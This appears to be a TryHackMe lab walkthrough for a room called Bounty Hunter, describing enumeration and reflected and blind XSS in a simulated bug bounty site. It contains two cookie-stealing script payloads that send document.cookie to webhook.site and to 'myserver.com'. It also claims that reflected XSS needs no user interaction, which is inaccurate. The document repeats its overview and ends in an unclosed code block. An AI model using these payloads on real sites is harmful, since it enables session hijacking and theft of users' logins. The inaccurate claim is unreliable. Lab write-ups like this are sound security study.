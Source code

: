 # TryHackMe – Bounty Hunter Walkthrough

## Room Summary
This room simulates a web application with potential XSS vulnerabilities and encourages enumeration of HTTP headers, cookie theft, and JavaScript injection.

## Tools Used
- Burp Suite
- Firefox Dev Tools
- TryHackMe AttackBox

## Exploit Path
1. Enumerated endpoints using Gobuster.
2. Found reflected XSS vector in the search bar.
3. Injected `<script>new Image().src="http://webhook.site/yourid?cookie="+document.cookie</script>`
4. Verified successful session exfiltration.

## Skills Demonstrated
- XSS payload crafting
- Cookie theft simulation
- Web enumeration & header inspection

---

🧠 *Reflected XSS requires no user interaction — prime target for session hijacking.*

## Overview
This room simulated a bug bounty scenario involving input sanitization failures.

## Exploit
Discovered a blind XSS vulnerability in a feedback form:

```html
<script>new Image().src="http://myserver.com?cookie="+document.cookie</script>
